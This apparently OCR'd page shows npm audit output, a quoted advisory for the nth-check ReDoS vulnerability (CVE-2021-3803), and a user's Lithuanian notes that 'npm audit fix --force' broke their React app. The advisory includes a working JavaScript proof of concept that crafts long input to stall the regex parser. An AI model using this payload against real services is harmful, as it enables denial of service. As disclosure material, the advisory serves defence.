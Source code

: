 8 vulnerabilities (2 moderate, 6 high)

To address all issues (including breaking changes), run:
  npm audit fix --force
}



//parode pokycius:

{
    There is a Regular Expression Denial of Service (ReDoS) vulnerability in nth-check that causes a denial of service when parsing crafted invalid CSS nth-checks.

The ReDoS vulnerabilities of the regex are mainly due to the sub-pattern \s*(?:([+-]?)\s*(\d+))? with quantified overlapping adjacency and can be exploited with the following code.

Proof of Concept

// PoC.js
var nthCheck = require("nth-check")
for(var i = 1; i <= 50000; i++) {
    var time = Date.now();
    var attack_str = '2n' + ' '.repeat(i*10000)+"!";
    try {
        nthCheck.parse(attack_str) 
    }
    catch(err) {
        var time_cost = Date.now() - time;
        console.log("attack_str.length: " + attack_str.length + ": " + time_cost+" ms")
    }
}
The Output

attack_str.length: 10003: 174 ms
attack_str.length: 20003: 1427 ms
attack_str.length: 30003: 2602 ms
attack_str.length: 40003: 4378 ms
attack_str.length: 50003: 7473 ms
References
https://nvd.nist.gov/vuln/detail/CVE-2021-3803
fb55/nth-check@9894c1d
https://huntr.dev/bounties/8cf8cc06-d2cf-4b4e-b42c-99fafb0b04d0
https://lists.debian.org/debian-lts-announce/2023/05/msg00023.html
}

Siulymas:
fix available via `npm audit fix --force`

//buvo 8 vulnerabilities (2 moderate, 6 high)
o, po npm audit fix  --force 
//163 vulnerabilities (1 low, 91 moderate, 68 high, 3 critical)
po dar vieno npm audit fix --force
8 vulnerabilities (2 moderate, 6 high)
tada uzluzo react app
